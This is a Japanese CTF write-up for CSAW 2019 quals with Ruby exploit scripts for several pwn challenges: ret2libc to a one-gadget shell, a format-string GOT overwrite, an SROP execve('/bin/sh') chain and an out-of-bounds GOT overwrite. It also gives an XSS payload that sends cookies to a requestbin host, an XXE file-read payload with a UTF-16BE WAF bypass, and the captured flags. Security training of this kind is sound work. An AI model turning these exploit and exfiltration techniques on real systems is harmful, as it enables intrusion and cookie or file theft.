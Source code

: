 ```yaml
---
title: "Csaw2019 writeup"
date: 2019-09-16T09:50:28+09:00
draft: false
categories:
- writeup
---
```


## Misc

### mcgriddlev2

- 問題文にFLAGが記載されている
- **flag{W3lcome_7o_CSAW_QUALS_2019!}**

## Pwn 

### baby_boi (50pt)

- シンプルなBOFでIPが奪える問題
- libcのアドレスを出力してくれているので、配布されたlibcでオフセット求めてOne-Gadget に飛ばしてシェルを奪う
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1005
libc = ELF.new "./libc-2.27.so"
#libc = ELF.new "/lib/x86_64-linux-gnu/libc-2.29.so"
def z; $z; end
z.recvuntil("\n")
libc_printf = z.recvuntil("\n").match(/: (.+)/)[1].to_i(16)
libc_base = libc_printf - libc.symbols["printf"]
puts "%x" % libc_base
payload = "A" * 40
payload << p64(libc_base + 0x4f322)
z.sendline(payload)
z.interact
```
- **flag{baby_boi_dodooo_doo_doo_dooo}**

### GOT Milk? (50pt)

- 独自の共有オブジェクトとバイナリが配られる
- `set LD_LIBRARY_PATH ./` でカレントディレクトリの共有オブジェクトを見るようにする
- FSBがあるので、それを使ってGOT Overwriteする
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
require 'fsa'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1004
def z; $z; end
value = 0x89
fmt = FSA.new()
fmt[0x804a010] = value
payload = fmt.payload(7) # index of argument
puts z.recvuntil("? ")
z.sendline(payload)
puts z.recv
```
- **flag{y0u_g00000t_mi1k_4_M3!?}**

### small_boi (100pt)

- statically linked でstrippedな小さなバイナリが与えられる
- sig\_return システムコールを呼ぶようなraxの設定のされ方があるのと自明なBOFがあるので、Sigreturn ROP (SROP) で `execve("/bin/sh", 0, 0)` を実行する
  - SROPは、スタックの値を使ってsig\_return実行時にレジスタの値を代入する攻撃
  - これを使ってrdiやrsi、ripなどが設定できるため任意のシステムコールを呼べる
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
#$z = Sock.new "localhost", 8888
$z = Sock.new "pwn.chal.csaw.io", 1002
def z; $z; end
payload = "\x00" * 0x28
payload << p64(0x40017c)
payload << p64(0x0) * 4
payload << p64(0x0) * 8 # r8~r15
payload << p64(0x4001ca) # rdi = /bin/sh
payload << p64(0) # rsi
payload << p64(0) # rbp
payload << p64(0) # 
payload << p64(0) # 
payload << p64(0x3b) # rax = 0x3b 
payload << p64(0) # rcx
payload << p64(0)   # rsp
payload << p64(0x00400185) # rip = syscall
payload << p64(0x0) # eflags
payload << p16(0x33) # cs
payload << p16(0)
payload << p16(0)
payload << p16(0x2b) # ss
payload << p64(0x0) * 5 # err ~ union
payload << p64(0x0) * 8 # reserved[8]
z.sendline payload
z.interact
```
- **flag{sigrop_pop_pop_pop}**

### traveller

- 解けなかったのでwriteupを見た
- Off-by-oneがあるためHeap問題かと思ったら操作対象のインデックスの入力に負数が入力できるOOB問題
- 編集コマンドで、`-50` をするとfree@gotを書き換えられたのでこれを使って`cat_flag`関数に飛ばす
```ruby
#!/usr/bin/env ruby
# coding: ascii-8bit
require 'pwn'
$z = Sock.new "pwn.chal.csaw.io", 1003
#elf = ELF.new "./traveller"
#libc = ELF.new "./libc-2.23.so"
context.log_level = :debug
def z; $z; end
def add(dist, dest)
  z.sendline "1"
  z.recvuntil "> "
  z.sendline dist.to_s
  z.recvuntil ": "
  z.sendline dest
  z.recvuntil "> "
end
def change(dist, dest)
  z.sendline "2"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.send dest
  z.recvuntil "> "
end
def delete(dist)
  z.sendline "3"
  z.recvuntil ": "
  z.sendline dist.to_s
  z.recvuntil "> "
end
def check(dist)
  z.sendline "4"
  z.recvuntil ">"
  z.sendline dist.to_s
  return z.recvuntil "> "
end
tmp = z.recvuntil "> "
stack_address = tmp.match(/.\n(.*) \n\n/)[1].to_i(16)
add(1, "AAAAAAAA")
change(-50, p64(0x4008b6))
puts delete(0)
```
- **flag{h0pe_y0u_3nj0y_ur_j0urn3y}**

## Rev

### Beleaf

- バイナリ中にFLAGに使われる文字列とインデックスの配列があるので、それを引っこ抜いてきて実行する

```ruby
#!/usr/bin/env ruby

idxs = [0x1, 0x9, 0x11, 0x27, 0x02, 0x00, 0x12, 0x03, 0x8, 0x12, 0x9, 0x12, 0x11, 0x1, 0x3, 0x13, 0x4, 0x3, 0x5, 0x15, 0x2e, 0xa, 0x3, 0xa, 0x12, 0x3, 0x1, 0x2e, 0x16, 0x2e, 0xa, 0x12, 0x6]

flag = [0x77, 0x66, 0x7b, 0x5f, 0x6e, 0x79, 0x7d, 0x20, 0x62, 0x6c, 0x72, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x61, 0x65, 0x69, 0x20, 0x6f, 0x74, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x67, 0x20, 0x20, 0x20, 0x20, 0x20, 0x20, 0x75].map(&:chr)

idxs.each do |i|
  print flag[i]
end
```
- **flag{we_beleaf_in_your_re_future}**

## Web

### baby csp

- CSPが有効なXSS問題
  - `default-src 'self'; script-src 'self' *.google.com; connect-src *`
- 上記のCSPからJSONPエンドポイントでのXSSを使う
  - https://inside.pixiv.blog/kobo/5137
- FLAGは、Cookieにあるので、requestbin を使ってPOSTさせるJavaScriptを埋め込む
- `<script src="https://accounts.google.com/o/oauth2/revoke?callback=navigator.sendBeacon('http://requestbin.net/r/ugix54ug', document.cookie)"></script>`
- **flag{csp_will_solve_EVERYTHING}**

### unagi

- 解けなかったのでwriteupを見た
- XMLがアップロードできるので、XXEだとわかるが、WAFがありいくつかのキーワード(ENTITYやSYSTEMなど)が使えない
  - PUBLIC は使えたりした
- 結論としては、UTF-8ではなくUTF-16BEでアップロードすればWAFをBypassできるというものだった
  - 試してたが、普通にXXEとしてうまくないファイルだったためこの方針を諦めてしまっていたのが解けない原因っぽい
- `cat x.xml | iconv -f UTF-8 -t UTF-16BE > x_utf-16.xml` などで作成してアップロードする
```xml
<?xml version="1.0"?>
<!DOCTYPE root[
<!ENTITY pass SYSTEM "file:///flag.txt">
]>
<users>
  <user>
    <username>alice2</username>
    <password>passwd1</password>
    <name>Alice2</name>
    <email>alice2@fakesite.com</email>
    <group>CSAW2019</group>
    <intro>&pass;</intro>
  </user>
</users>
```
- **flag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}**

